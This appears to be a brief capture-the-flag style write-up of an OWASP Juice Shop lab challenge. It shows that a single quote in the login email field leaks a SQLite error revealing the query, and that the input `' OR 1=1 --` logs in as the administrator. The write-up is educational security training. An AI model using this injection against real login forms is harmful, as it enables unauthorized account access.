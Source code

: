 The description of the next challenge essentially gave away this one:

> Log in with the administrator's user credentials without previously changing them or applying SQL Injection.

Placing a single `'` in the Email and anything in the Password results in the
following:

```
{"error":{"message":"SQLITE_ERROR: unrecognized token: \"098f6bcd4621d373cade4e832627b4f6\"","stack":"SequelizeDatabaseError: SQLITE_ERROR: unrecognized token: \"098f6bcd4621d373cade4e832627b4f6\"\n at Query.formatError (/juice-shop/node_modules/sequelize/lib/dialects/sqlite/query.js:423:16)\n at afterExecute (/juice-shop/node_modules/sequelize/lib/dialects/sqlite/query.js:119:32)\n at replacement (/juice-shop/node_modules/sqlite3/lib/trace.js:19:31)\n at Statement.errBack (/juice-shop/node_modules/sqlite3/lib/sqlite3.js:16:21)","name":"SequelizeDatabaseError","parent":{"errno":1,"code":"SQLITE_ERROR","sql":"SELECT * FROM Users WHERE email = ''' AND password = '098f6bcd4621d373cade4e832627b4f6'"},"original":{"errno":1,"code":"SQLITE_ERROR","sql":"SELECT * FROM Users WHERE email = ''' AND password = '098f6bcd4621d373cade4e832627b4f6'"},"sql":"SELECT * FROM Users WHERE email = ''' AND password = '098f6bcd4621d373cade4e832627b4f6'"}}
```

So we can be fairly sure it's an SQL injection. Trying `' OR 1=1 --` does the trick :)
